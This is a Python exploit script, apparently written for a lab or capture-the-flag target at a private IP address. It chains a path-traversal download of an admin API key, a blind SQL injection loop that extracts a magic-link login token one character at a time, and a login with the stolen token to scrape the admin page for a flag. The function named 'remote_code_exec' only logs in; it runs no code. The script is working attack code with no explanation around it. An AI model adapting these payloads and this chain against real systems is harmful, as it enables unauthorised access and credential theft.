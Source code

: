 ## CODE

```python
import requests
import sys
import os
from time import sleep

proxies={"http":"127.0.0.1:8080", "https":"127.0.0.1:8080"}

def get_admin_apikey():
    print("[+] Generating admin API key....")
    req = requests.get("http://192.168.167.157/api/users")
    print("[+] Downloading key..")
    req1 = requests.get("http://192.168.167.157/download?id=....//conf/apikey")
    adminapikey = req1.text
    return(adminapikey)

def generate_token():
    req = requests.post("http://192.168.167.157/generateMagicLink", data={'username':'admin'})

def activate(injstr, key):
    for j in range(48,123):
        req1 = requests.post("http://192.168.167.157/api/user/{}/activate".format(injstr.replace("[CHAR]", str(j))), data={'apiKey':key})
        req2 = requests.get("http://192.168.167.157/api/users?apiKey={}".format(key))
        if req2.json()[6]["active"] == "true":
            return j

def sqli_function():
    apikey = get_admin_apikey()
    print("[+] API KEY :" + apikey)
    print("[+] Magic link token:")
    f = open('token.txt', 'w')
    for i in range(1, 65):
        sqli = ("1%20OR%20CHR([CHAR])%20IN%20(select%20(substr((select token from tokens where user_id = 1),{},1)))").format(i)
        req = requests.get("http://192.168.167.157/api/users?apiKey={}".format(apikey))
        if req.json()[6]["active"] == "false":
            extended_chr = chr(activate(sqli, apikey))
        else:
            req1 = requests.post("http://192.168.167.157/api/user/7/ban", data={'apiKey':apikey})
            extended_chr = chr(activate(sqli, apikey))
        sys.stdout.write(extended_chr)
        sys.stdout.flush()
        f.write(extended_chr)
    f.close()

def remote_code_exec():
    f = open('token.txt', 'r')
    tokentext = f.read()
    token = tokentext.strip()
    f.close()
    print('\n')
    print("[+] Logging in with magic link")
    s = requests.Session()
    s.get("http://192.168.167.157/magicLink/{}".format(token))
    localflagresp = s.get("http://192.168.167.157/admin")
    b = open('sopabxresp.txt', 'w')
    b.write(localflagresp.text)
    b.close()
    os.system("""grep -E 'code.{0,60}' sopabxresp.txt | cut -d ">" -f 3 | cut -d "<" -f 1 > lflag.txt""")
```